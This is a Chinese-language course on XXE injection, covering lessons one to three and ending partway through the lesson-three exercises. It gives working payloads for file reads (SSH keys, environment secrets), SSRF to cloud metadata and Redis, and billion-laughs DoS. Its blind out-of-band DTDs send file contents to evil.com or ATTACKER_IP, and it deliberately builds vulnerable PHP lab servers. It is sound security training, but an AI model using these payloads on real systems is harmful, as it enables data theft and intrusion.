







# XXE XML 外部实体注入详解
> 📚 课程目录

| 课时 | 主题 | 时长 | 核心产出 |
| :---: | --- | :---: | --- |
| 第 1 课 | XML 基础 + DTD + 实体 + XXE 原理 | 60 min | 手写一个有 XXE 的 XML 解析器 |
| 第 2 课 | 经典 XXE 利用：读文件 / SSRF / 探测 | 70 min | 完成 bwapp / vulhub XXE 关卡 |
| 第 3 课 | Blind XXE + OOB + 参数实体 + 报错 | 60 min | 用 OOB 把数据带出 |
| 第 4 课 | 防御 + 真实案例 + 进阶 | 50 min | 实现各语言的 XXE 防御 |


> 🎯 **学完本课你应当能做到**：
> 1. 看懂 XML、DTD、内部实体、外部实体、参数实体的区别
> 2. 在 bwapp / vulhub 上用 XXE 读取 /etc/passwd
> 3. 用 OOB（带外数据）在无回显场景下拿数据
> 4. 写出 Java / Python / PHP 三种语言的 XXE 防御代码
> 5. 解释 XXE 与 SSRF、文件读取、SSRF 内网攻击的关系


---

# 🗓️ 第 1 课 · XML 基础 + DTD + 实体 + XXE 原理
## 1.1 XML 是什么？
**XML (eXtensible Markup Language)** 可扩展标记语言。  
1998 年 W3C 标准，用于"结构化数据交换"。

### 一个最简单的 XML
```xml
<?xml version="1.0" encoding="UTF-8"?>
<note>
    <to>Alice</to>

    <from>Bob</from>

    <title>Reminder</title>

    <body>Don't forget the meeting!</body>

</note>

```

### XML 与 HTML 的区别
| 维度 | XML | HTML |
| --- | --- | --- |
| 用途 | 数据交换 | 页面展示 |
| 标签 | 自定义（用户起名） | 预定义 |
| 大小写 | 严格区分 | 不区分 |
| 闭合 | 必须闭合 | 可不闭合 |
| 嵌套 | 必须正确嵌套 | 容错 |


---

## 1.2 XML 在哪里被使用？（高发场景）


🎯 **关键认知**：  
任何**接收 XML 输入并解析**的接口都是潜在 XXE 点。  
Content-Type 为 `application/xml`、`text/xml`、`application/soap+xml` 必查。

---

## 1.3 XML 文档结构


### 三个必知概念
#### 1. XML 声明
```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
```

必须在文档第一行。

#### 2. CDATA（原样文本）
```xml
<content><![CDATA[
    if (a < b && c > d) { /* 不会被解析为标签 */
        alert("</not_a_tag>");
    }
]]></content>

```

`<![CDATA[ ... ]]>` 之间的内容不被解析为标签，可以包含 `<` `>` `&`。

#### 3. 实体引用（特殊字符）
```xml
&lt;    → <
&gt;    → >
&amp;   → &
&apos;  → '
&quot;  → "
```

例如，要在 XML 中写"a < b"必须写：`a &lt; b`

---

## 1.4 DTD（文档类型定义）—— XXE 的根
### DTD 是什么？
**DTD (Document Type Definition)** 描述 XML 文档的"结构规则"。  
可在 XML 内部声明，也可外部引用。

### 内部 DTD 示例
```xml
<?xml version="1.0"?>
<!DOCTYPE note [
    <!ELEMENT note (to,from,heading,body)>
    <!ELEMENT to      (#PCDATA)>
    <!ELEMENT from    (#PCDATA)>
    <!ELEMENT heading (#PCDATA)>
    <!ELEMENT body    (#PCDATA)>
]>
<note>
    <to>Alice</to>

    <from>Bob</from>

    <heading>Reminder</heading>

    <body>Meeting at 10</body>

</note>

```

### DTD 关键字
```plain
<!ELEMENT ...>     定义元素
<!ATTLIST ...>     定义属性
<!ENTITY ...>      定义实体    ← XXE 核心
<!NOTATION ...>    定义符号
```

---

## 1.5 实体（Entity）—— XXE 的核心概念
### 实体的本质
> **实体 = XML 的"变量"或"宏"**。  
用 `&name;` 引用，会被替换为实体定义的内容。
>

### 实体的分类（重要！必背）


### 1. 内部实体（普通通用实体）
```xml
<!DOCTYPE note [
    <!ENTITY author "Alice">
]>
<note>&author;</note>

```

`&author;` 被替换为 `Alice`。

### 2. 外部实体（XXE 经典）
```xml
<!DOCTYPE note [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<note>&xxe;</note>

```

`SYSTEM` 关键字 + URL → 解析器**去读取这个 URL**！

+ `file://` 读本地文件
+ `http://` 发起网络请求
+ `ftp://` FTP 协议

### 3. 参数实体（Blind XXE 核心）
```xml
<!DOCTYPE note [
    <!ENTITY % remote SYSTEM "http://evil.com/evil.dtd">
    %remote;
]>
```

注意是 `%` 而不是 `&`，且只能在 DTD 内使用（不能在 XML body 内）。

### 4. 预定义实体
```plain
&lt;  &gt;  &amp;  &apos;  &quot;
```

---

## 1.6 XXE 漏洞定义
> **XXE (XML External Entity Injection) XML 外部实体注入**：  
应用解析 XML 输入时，**未禁用外部实体引用**，  
攻击者构造恶意外部实体，让解析器**代为读取文件 / 发起请求**。
>

```mermaid
sequenceDiagram
    participant A as 攻击者
    participant S as 目标服务器
    participant F as 本地文件 / 内网

    A->>S: POST /api XML 含外部实体
    Note over A,S: <!ENTITY xxe SYSTEM "file:///etc/passwd">
    S->>S: XML 解析器
    Note over S: 解析 DTD
    S->>F: 解析器按 SYSTEM URL 访问
    F-->>S: 文件内容 / 响应
    S->>S: 替换 &xxe; 为内容
    S-->>A: 返回响应（含文件内容）
```

---

## 1.7 第一个 XXE Payload（手动验证）
### 最经典的 XXE PoC
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>

```

### 服务端漏洞代码（PHP）
```php
<?php
// vuln.php
$xml = file_get_contents('php://input');
$doc = simplexml_load_string($xml);   // ❌ 默认解析外部实体（旧 PHP）
echo "你提交的：<pre>" . $doc->asXML() . "</pre>";
?>
```

> ⚠️ PHP `libxml` 版本差异：
>
> + `< 2.9.0` 默认启用外部实体（漏洞）
> + `>= 2.9.0` 默认禁用外部实体（需手动 `LIBXML_NOENT`）
>

### 用 curl 测试
```bash
# 启动靶场
docker run -d --name xxe-lab -p 8082:80 php:7.4-apache
docker exec xxe-lab apt-get install -y libxml2-dev
# 写入漏洞代码（同上）

# 攻击
curl -X POST http://localhost:8082/vuln.php \
  -H 'Content-Type: application/xml' \
  -d '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>'
```

预期返回 `/etc/passwd` 的内容。

---

## 1.8 XXE 的危害（与 SSRF 高度重合）


### 与 SSRF 的对比
| 维度 | XXE | SSRF |
| --- | --- | --- |
| 入口 | XML 解析 | URL 转发 |
| 协议 | file / http / ftp / gopher | 同上 |
| 危害 | 几乎一样 | 同上 |
| 区别 | XXE 限定于"XML 解析器能用的协议" | SSRF 限定于"HTTP 客户端能用的协议" |


> 🎯 **认知**：XXE 在某种意义上是"专用 SSRF"，专发于 XML 解析场景。
>

---

## 1.9 Billion Laughs 攻击（DoS）
```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
    <!ENTITY lol "lol">
    <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
    <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
    <!-- ... 继续嵌套 -->
]>
<lolz>&lol9;</lolz>

```

`&lol9;` 展开为 10^9 个 "lol" → 占用 GB 内存 → 服务崩溃。

**防御**：限制实体深度、禁用实体扩展。

---

## 1.10 第 1 课小结
| 知识点 | 一句话 |
| --- | --- |
| XML | 数据交换标记语言 |
| DTD | 文档类型定义，包含实体声明 |
| 内部实体 | DTD 内的"变量" |
| 外部实体 | `SYSTEM "url"` 引用外部资源（XXE 核心） |
| 参数实体 | `%name;` 仅 DTD 内用（Blind XXE 核心） |
| XXE | 解析器未禁外部实体 → 攻击者读取任意资源 |
| 危害 | 读文件 / SSRF / DoS / 数据外带 |
| 经典 PoC | `<!ENTITY xxe SYSTEM "file:///etc/passwd">` |


### 课间实操（10 分钟）
1. 写一份纯文本 XML，理解元素 / 属性 / CDATA
2. 写一份带内部 DTD 的 XML，定义实体 `&author;`
3. 把内部实体改成外部实体（`file:///etc/hostname`）
4. 启动 PHP 靶场，curl 测试 XXE

---

# 🗓️ 第 2 课 · 经典 XXE 利用：读文件 / SSRF / 探测
## 2.1 经典 XXE 读取文件
### Linux 文件读取清单
```xml
<!ENTITY x SYSTEM "file:///etc/passwd">           用户列表
<!ENTITY x SYSTEM "file:///etc/hostname">          主机名
<!ENTITY x SYSTEM "file:///etc/issue">             系统版本
<!ENTITY x SYSTEM "file:///proc/self/environ">     环境变量（含密钥）
<!ENTITY x SYSTEM "file:///proc/self/cmdline">     启动命令
<!ENTITY x SYSTEM "file:///proc/net/tcp">          TCP 连接
<!ENTITY x SYSTEM "file:///root/.bash_history">    Bash 历史
<!ENTITY x SYSTEM "file:///root/.ssh/id_rsa">      SSH 私钥
<!ENTITY x SYSTEM "file:///var/lib/mysql/mysql/user.MYD"> MySQL 用户表
<!ENTITY x SYSTEM "file:///etc/nginx/nginx.conf">  Nginx 配置
<!ENTITY x SYSTEM "file:///var/log/apache2/access.log"> Apache 日志
```

### Windows 文件读取清单
```xml
<!ENTITY x SYSTEM "file:///C:/Windows/win.ini">
<!ENTITY x SYSTEM "file:///C:/Windows/System32/drivers/etc/hosts">
<!ENTITY x SYSTEM "file:///C:/inetpub/wwwroot/web.config">
<!ENTITY x SYSTEM "file:///C:/Users/Administrator/.ssh/id_rsa">
```

### 完整 Payload
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
    <!ENTITY x SYSTEM "file:///etc/passwd">
]>
<foo>&x;</foo>

```

---

## 2.2 靶场复现 1：bWapp XXE
```bash
docker run -d --name bwapp -p 8081:80 raesene/bwapp
# bee / bug
```

### 关卡 1：XML External Entity (Reflected)
进入 `A1 - Injection → XML External Entity (Reflected)`：

页面是一个表单，输入用户名后会用 XML 格式提交。

### 抓包查看
Burp 抓到：

```plain
POST /bWAPP/xxe-1.php HTTP/1.1
Content-Type: application/xml

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE reset [
    <!ENTITY xxe SYSTEM "http://localhost">
]>
<reset><login>&bee;</login><secret>Any bugs?</secret></reset>

```

### 利用
修改为：

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE reset [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<reset><login>&xxe;</login><secret>Any bugs?</secret></reset>

```

返回页面会显示 `/etc/passwd` 的内容（在 login 字段位置）。

### 关卡 2：XML External Entity (Stored)
留言板 → 提交 XML → 解析后存储 → 显示时触发 XXE。  
Payload 与关卡 1 相同。

---

## 2.3 靶场复现 2：vulhub XXE
### 启动
```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/php/php_xxe
docker-compose up -d
```

### 漏洞点
一个 PHP 的 SimpleXML 解析接口：

```php
$data = file_get_contents('php://input');
$xml = simplexml_load_string($data, 'SimpleXMLElement', LIBXML_NOENT);
```

`LIBXML_NOENT` 标志**启用实体替换** → XXE 可用。

### 利用
```bash
curl -X POST http://localhost:8080/dom.php \
  -H 'Content-Type: application/xml' \
  -d '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>'
```

---

## 2.4 用 XXE 做 SSRF
### 读云元数据
```xml
<!DOCTYPE foo [
    <!ENTITY x SYSTEM "http://169.254.169.254/latest/meta-data/">
]>
<foo>&x;</foo>

```

### 内网端口扫描
```xml
<!DOCTYPE foo [
    <!ENTITY x SYSTEM "http://192.168.1.5:6379/">
]>
<foo>&x;</foo>

```

**判断方法**：

+ 端口开放且响应 → 返回数据 / 错误信息
+ 端口关闭 → "Connection refused"
+ 防火墙过滤 → "Timeout"

### 自动化扫描脚本
```python
import requests

target = "http://victim.com/api"
ports = [22, 80, 443, 3306, 6379, 8080, 9200, 11211]

for port in ports:
    xml = f'''<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY x SYSTEM "http://192.168.1.5:{port}/">]>
<foo>&x;</foo>'''
    try:
        r = requests.post(target, data=xml,
                         headers={'Content-Type':'application/xml'},
                         timeout=3)
        print(f"Port {port}: HTTP {r.status_code}, len={len(r.text)}")
    except requests.exceptions.Timeout:
        print(f"Port {port}: TIMEOUT (open?)")
    except Exception as e:
        msg = str(e)
        if "Connection refused" in msg:
            print(f"Port {port}: CLOSED")
        else:
            print(f"Port {port}: {msg[:50]}")
```

---

## 2.5 不同 XML 解析器对 XXE 的支持
| 语言 / 解析器 | 默认是否解析外部实体 |
| --- | :---: |
| PHP `simplexml_load_string` (`libxml<2.9`) | ✅ |
| PHP `DOMDocument`（默认配置） | ✅ |
| Python `xml.etree.ElementTree` | ❌ |
| Python `lxml`（默认） | ✅（需禁用 `resolve_entities=False`） |
| Java `DocumentBuilderFactory`（默认） | ✅ |
| Java `SAXParser`（默认） | ✅ |
| C# `XmlDocument`（默认） | ✅ |
| Ruby `REXML` | ❌ |


> ⚠️ Java 几乎所有 XML 解析器默认都有 XXE 风险，**是 XXE 高发语言**。
>

---

## 2.6 XXE 读取特殊文件（PHP wrapper）
### 读 PHP 源码（base64 编码）
```xml
<!DOCTYPE foo [
    <!ENTITY x SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/index.php">
]>
<foo>&x;</foo>

```

返回 base64 编码的 PHP 源码 → 解码即可看到 PHP 代码（不会被 PHP 解析执行）。

### 利用 gopher / dict 攻击 Redis
部分解析器（Java、PHP libxml2）支持 gopher：

```xml
<!ENTITY x SYSTEM "gopher://192.168.1.5:6379/_*3%0d%0a$4%0d%0aINFO%0d%0a">
```

→ XXE 触发 SSRF + 攻击 Redis（详见 SSRF 课件第 2 课）。

---

## 2.7 实战技巧：如何找 XXE 入口？
### Content-Type 改造
很多接口默认接收 JSON，但**改成 XML 也接受**：

```plain
原本：
POST /api/login
Content-Type: application/json
{"user":"admin","pass":"123"}

改成：
POST /api/login
Content-Type: application/xml
<login><user>admin</user><pass>123</pass></login>

```

如果服务端根据 Content-Type 调度不同的解析器，且 XML 解析有漏洞 → XXE。

### 常见接收 XML 的接口
```plain
/api/login          登录
/api/upload         上传（XML 配置）
/api/sso            SAML 单点登录
/api/rss            RSS 订阅
/api/webhook        Webhook 接收
/soap               SOAP 服务
/api/import         数据导入
```

### 自动化探测
```bash
# Burp Active Scan
# 或者：所有 JSON 请求改成 XML 重发
```

---

## 2.8 靶场复现 3：WebGoat XXE
```bash
docker run -d --name webgoat -p 8088:8080 -p 9090:9090 webgoat/goatandwolf
# 访问 http://localhost:8088/WebGoat
```

### 关卡：A7 - Identification and Authentication Failures → XXE
#### Stage 3：测试 Mobile API
发现接口 `/WebGoat/xxe/simple`。

提交：

```plain
POST /WebGoat/xxe/simple HTTP/1.1
Content-Type: application/xml

<?xml version="1.0"?>
<comment>
    <text>test</text>

</comment>

```

返回评论列表。

#### Stage 4：读取 /etc/passwd
```xml
<?xml version="1.0"?>
<!DOCTYPE comment [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<comment><text>&xxe;</text></comment>

```

提交后看到 passwd 内容 → 通过。

---

## 2.9 靶场复现 4：XXEtest 自建
```bash
mkdir -p /tmp/xxe
cat > /tmp/xxe/Dockerfile <<'EOF'
FROM php:7.4-apache
RUN apt-get update && apt-get install -y libxml2-dev
COPY index.php /var/www/html/index.php
EOF

cat > /tmp/xxe/index.php <<'EOF'
<?php
libxml_use_internal_errors(true);
$xml = file_get_contents('php://input');
if (!$xml) {
    echo '<form method="POST">Name: <input name="name"><button>Go</button></form>';
    exit;
}
$doc = new DOMDocument();
$doc->loadXML($xml, LIBXML_NOENT | LIBXML_DTDLOAD);   // 漏洞点
$root = $doc->documentElement;
echo "Hello, " . $root->textContent;
EOF

cd /tmp/xxe && docker build -t xxe-test .
docker run -d --name xxe -p 8090:80 xxe-test
```

### 测试
```bash
curl -X POST http://localhost:8090/ \
  -H 'Content-Type: application/xml' \
  -d '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY x SYSTEM "file:///etc/passwd">]><foo>&x;</foo>'
```

---

## 2.10 第 2 课小结
| 知识点 | 一句话 |
| --- | --- |
| 经典 XXE | `<!ENTITY x SYSTEM "file:///...">` |
| 读文件协议 | file://（Linux/Windows 都支持） |
| SSRF 攻击 | XXE 也是 SSRF 的一种 |
| 端口扫描 | 通过错误信息 / 响应时间判断 |
| Content-Type 改造 | JSON 接口改 XML 也可能触发 |
| Java 默认所有 XML 解析器都受影响 | XXE 高发语言 |
| PHP wrapper | `php://filter` 读源码 |
| bwapp / vulhub / webgoat | 三大经典 XXE 靶场 |


### 课间实操（15 分钟）
1. bwapp XXE Reflected 关卡，读 /etc/passwd
2. vulhub PHP XXE，用 curl 读 /etc/hostname
3. 自建 XXE 靶场，测试 Content-Type 改造攻击
4. 写一个端口扫描脚本（Python）

---

# 🗓️ 第 3 课 · Blind XXE + OOB + 参数实体 + 报错
## 3.1 什么是 Blind XXE？


### Blind XXE 常见场景
+ API 接口不回显 XML 内容
+ 后台异步处理（仅返回"处理成功"）
+ 错误被通用异常处理器吞掉
+ 字段被前端模板过滤

---

## 3.2 参数实体：Blind XXE 的关键工具
### 参数实体 vs 通用实体
| 类型 | 声明 | 引用 | 使用范围 |
| --- | --- | --- | --- |
| 通用实体 | `<!ENTITY name "val">` | `&name;` | XML 文档内 |
| 参数实体 | `<!ENTITY % name "val">` | `%name;` | **仅 DTD 内** |


### 参数实体示例
```xml
<!DOCTYPE foo [
    <!ENTITY % hello "<!ENTITY inner 'Hello World'>">
    %hello;
]>
<foo>&inner;</foo>

```

### 外部参数实体（Blind XXE 核心）
```xml
<!DOCTYPE foo [
    <!ENTITY % remote SYSTEM "http://evil.com/evil.dtd">
    %remote;
]>
<foo>test</foo>

```

解析器**去 evil.com 下载 evil.dtd**，并把 dtd 内的内容当作 DTD 加载。

---

## 3.3 OOB（Out-of-Band）带外数据
### 原理
```mermaid
sequenceDiagram
    participant A as 攻击者
    participant V as 受害服务器
    participant E as evil.com
    participant F as 本地文件

    A->>V: XML 引用 evil.dtd
    V->>E: GET /evil.dtd
    E-->>V: 返回 evil.dtd（含 %all; 实体定义）
    Note over evil.dtd: 把文件内容拼成 URL，发起 FTP/HTTP 请求
    V->>F: 读取 /etc/passwd（按 dtd 指示）
    F-->>V: 文件内容
    V->>E: FTP http://evil.com/exfil?data=文件内容
    Note over E: 攻击者日志收到数据
```

### evil.dtd 内容
```plain
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://evil.com/log?d=%file;'>">
%eval;
%exfiltrate;
```

**逐行解析**：

```plain
1. 定义参数实体 %file; → 内容是 /etc/passwd
2. 定义参数实体 %eval; → 内容是另一个参数实体定义（拼字符串）
   - &#x25; 是 % 的 XML 实体
3. %eval; → 触发内部实体扩展，定义 %exfiltrate;
4. %exfiltrate; → 发起 http 请求到 evil.com，URL 中带 %file;
```

### 攻击 Payload
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
    <!ENTITY % remote SYSTEM "http://evil.com/evil.dtd">
    %remote;
]>
<foo>test</foo>

```

### 监听 evil.com
```bash
# Python HTTP server
mkdir -p /tmp/evil && cd /tmp/evil
cat > evil.dtd <<'EOF'
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://ATTACKER_IP:9999/log?d=%file;'>">
%eval;
%exfiltrate;
EOF

python3 -m http.server 80   # 提供 evil.dtd
# 另一个端口监听数据外带
nc -lvnp 9999
```

---

## 3.4 FTP 协议外带（支持多行内容）
HTTP URL 长度有限，且 `&` 等字符可能截断 → 用 **FTP** 外带大文件。

### evil.dtd（FTP 版）
```plain
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'ftp://ATTACKER_IP:2121/%file;'>">
%eval;
%exfiltrate;
```

### 启动 FTP 服务器
```bash
pip3 install pyftpdlib
python3 -m pyftpdlib -p 2121 -w
```

### 多行文件问题
`/etc/passwd` 含 `\n` → 部分解析器视为单行 → 只外带第一行。

**解决**：用支持多行的解析器（Java XOM / Python lxml），或用 base64 编码后外带。

---

## 3.5 报错型 XXE
### 原理
让解析器把文件内容**包在错误信息**里返回：

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % dtd SYSTEM "http://evil.com/error.dtd">
    %dtd;
]>
<foo>test</foo>

```

### error.dtd
```plain
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

### 解析器行为
解析器尝试访问 `file:///nonexistent/<文件内容>` → 不存在 → 抛出错误：

```plain
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:...
```

文件内容就出现在错误信息里。

### 适用场景
+ 服务端把异常信息返回给客户端
+ Java 默认 SAXParser 会抛出详细错误

---

## 3.6 Blind XXE 实操（自建）
```bash
mkdir -p /tmp/blind-xxe/{evil,server}
cd /tmp/blind-xxe

# 1. 准备 evil.dtd
cat > evil/evil.dtd <<'EOF'
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exf SYSTEM 'http://127.0.0.1:9999/?h=%file;'>">
%eval;
%exf;
EOF

# 2. 启动 dtd server
cd evil && python3 -m http.server 80 &

# 3. 启动数据接收
nc -lvnp 9999 &
```

### Payload
```bash
curl -X POST http://localhost:8090/ \
  -H 'Content-Type: application/xml' \
  -d '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY % r SYSTEM "http://127.0.0.1/evil.dtd">%r;]><foo>test</foo>'
```

nc 端会收到：

```plain
GET /?h=target-hostname HTTP/1.1
Host: 127.0.0.1:9999
```

→ Blind XXE 成功！

---

## 3.7 不同解析器的协议支持
| 解析器 | http | https | file | ftp | gopher | netdoc |
| --- | :---: | :---: | :---: | :---: | :---: | :---: |
| PHP libxml2 | ✅ | ✅ | ✅ | ✅ | ❌ | ❌ |
| Java (默认) | ✅ | ✅ | ✅ | ✅ | ❌ | ✅ |
| Python lxml | ✅ | ✅ | ✅ | ✅ | ❌ | ❌ |
| C# XmlDocument | ✅ | ✅ | ✅ | ✅ | ❌ | ❌ |


### netdoc（Java 特有）
```plain
netdoc:///etc/passwd   → 等同于 file:///etc/passwd
```

是 Java 绕过 `file://` 黑名单的常用方法。

---

## 3.8 XXE 升级攻击链
### 1. XXE → Redis → RCE
```xml
<!ENTITY x SYSTEM "gopher://192.168.1.5:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a...（RESP Payload）">
```

PHP libxml2 不支持 gopher，**Java 部分版本支持**。

### 2. XXE → 内网 SSRF → 云元数据
```xml
<!ENTITY x SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
```

### 3. XXE → 内网 FastCGI → RCE
```xml
<!ENTITY x SYSTEM "gopher://127.0.0.1:9000/_<FastCGI packet>">
```

---

## 3.9 SVG 中的 XXE
SVG 是 XML 格式 → 上传 SVG 头像 / 图片可能触发 XXE。

### 恶意 SVG
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<svg xmlns="http://www.w3.org/2000/svg" width="500" height="500">
    <text x="10" y="20">&xxe;</text>

</svg>

```

上传后服务器解析 SVG → 触发 XXE。

### 检测点
```plain
□ 用户头像（支持 SVG 上传？）
□ 图片处理（ImageMagick 解析 SVG）
□ PDF 生成（嵌入 SVG）
□ Office 文档预览（docx/xlsx 内是 XML）
```

---

## 3.10 Office 文档中的 XXE
### 原理
`docx` / `xlsx` / `pptx` 本质是 ZIP，里面是大量 XML 文件：

```plain
mydoc.docx（ZIP）解开：
  [Content_Types].xml
  _rels/.rels
  word/document.xml
  ... 等
```

### 攻击
1. 把 docx 解压
2. 修改某个 XML，注入外部实体
3. 重新打包
4. 上传到目标 → 解析时触发 XXE

### 工具：xxe-injection
```bash
# 生成恶意 docx
python3 oxml_xxe.py --module docx --payload '<!ENTITY x SYSTEM "file:///etc/passwd">' --reference '&x;' evil.docx
```

---

## 3.11 SAML 中的 XXE
### SAML Response 是 XML
SAML 单点登录中，IdP 返回给 SP 的 SAML Response 是签名 XML。

### 攻击点
```xml
<samlp:Response>
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
    <saml:Assertion>
        <saml:Subject>&xxe;</saml:Subject>

    </saml:Assertion>

</samlp:Response>

```

如果 SP 在验签之前解析 XML → XXE 触发。

### 修复
验签**之前不解析外部实体**，验签**之后**才信任 XML。

---

## 3.12 第 3 课小结
| 知识点 | 一句话 |
| --- | --- |
| Blind XXE | 响应不回显，靠 OOB |
| 参数实体 | `%name;` 仅 DTD 内用 |
| OOB 利用 | 远程 dtd + FTP/HTTP 外带 |
| evil.dtd 关键 | `%file; → %eval; → %exfiltrate;` |
| 报错型 XXE | 错误信息含文件内容 |
| Java 协议支持 | netdoc / http / file / ftp |
| SVG XXE | 头像上传可触发 |
| Office XXE | docx/xlsx 解压改 XML 再打包 |
| SAML XXE | 验签前解析就中招 |


### 课间实操（15 分钟）
1. 自建 Blind XXE 靶场，启动 evil.dtd 服务器
